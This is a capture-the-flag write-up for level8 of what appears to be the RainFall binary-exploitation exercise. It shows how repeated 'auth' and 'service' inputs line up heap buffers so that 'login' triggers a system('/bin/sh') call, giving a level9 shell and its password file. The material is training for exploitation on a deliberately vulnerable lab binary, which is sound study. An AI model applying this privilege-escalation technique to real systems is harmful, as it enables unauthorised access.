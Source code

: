 ## Flag8 README: Finding Flag8

After connection on our vm with:
```bash
ssh level8@localhost -p 4242
```

We found a binary named level8. When we run it we obtain:
```sh
level8@RainFall:~$ ./level8
(nil), (nil)
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), program just printing adress of buffer auth and buffer service.
We can see on line 28 `system("/bin/sh")`, okay you find our target. If we manage to write into `auth + 8` then the program will run `/bin/sh`

Okay we have our plan but how can we manage to do so ?

So we simply tried the command `'auth '` which gave us:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
```

Okay ...

This is the adress of our buffer `auth`. Okay let's try command `service` then:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

service's adress is auth's adress + 16...
okay we need to add 16 again so let's just recall service and see what happen's:

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
```
Okay now let's try to run command `login`

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```

And VOILA, our shell is runing with level9, as always we just need to **cat** the file **.pass** of level9.
